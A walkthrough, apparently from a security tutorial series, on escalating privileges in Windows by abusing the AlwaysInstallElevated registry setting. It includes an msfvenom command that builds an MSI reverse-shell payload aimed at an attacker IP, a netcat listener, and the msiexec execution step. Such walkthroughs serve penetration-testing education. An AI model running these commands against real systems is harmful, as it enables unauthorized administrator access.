




Introduction
In this article, we will explain how to escalate privileges on a Windows system by abusing MSI Packages. Before we dive into the practical steps, let us first understand the concept behind this technique.
An MSI file is a Windows Installer package -- it is essentially an executable file format used to install software. Normally, a user can run an MSI file and it will install the program with the user's own privileges. However, Windows also allows MSI files to be executed with administrator privileges, but only if a specific registry key called AlwaysInstallElevated is set to 1 in both of the following registry paths:
HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
When both of these keys are set to 1, any user on the system can run an MSI installer with elevated (administrator) privileges. This is a serious misconfiguration that we can exploit.
The attack scenario works as follows: first, we check whether we can execute MSI files with administrator privileges. If we can, we generate a malicious MSI file that contains a reverse shell payload. When executed, this MSI runs with elevated privileges and returns a high-privilege session to us.
Walkthrough
Step 1: Confirm Low-Privilege Access
First, we confirm that we are logged in as a limited user. In this scenario, we are operating as the user user, which has restricted privileges on the system.

Step 2: Run WinPEAS for Enumeration
Next, we use the WinPEAS tool to enumerate the system for privilege escalation vectors. We covered how to transfer WinPEAS to a compromised system in previous articles (via SMB server or HTTP server).
Run WinPEAS and examine the results together.
We can see that WinPEAS reports that the AlwaysInstallElevated registry key is set to 1 in both of the registry paths we mentioned at the beginning of this article. This confirms that the system is vulnerable to this attack.

Step 3: Generate a Malicious MSI File
Now we generate a malicious MSI file using msfvenom. This file will contain our reverse shell payload:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=999 -f msi -o exploit.msi
Step 4: Transfer the Malicious File
Transfer the malicious MSI file to the compromised machine. You can use an SMB server or an HTTP server for this, as we explained in the previous articles.

Step 5: Set Up a Listener
On our attacker machine, we set up a netcat listener on port 999 to catch the incoming reverse shell connection:
nc -lvp 999

Step 6: Execute the Malicious MSI
On the target system, run the malicious MSI file using the following command:
msiexec /i exploit.msi
Because the AlwaysInstallElevated key is enabled, Windows will execute this MSI with administrator privileges, regardless of the fact that we are running it as a low-privilege user.
Result
After executing the MSI file, we receive a reverse shell on our listener with the highest privileges on the system. We have successfully escalated our privileges through MSI Packages.
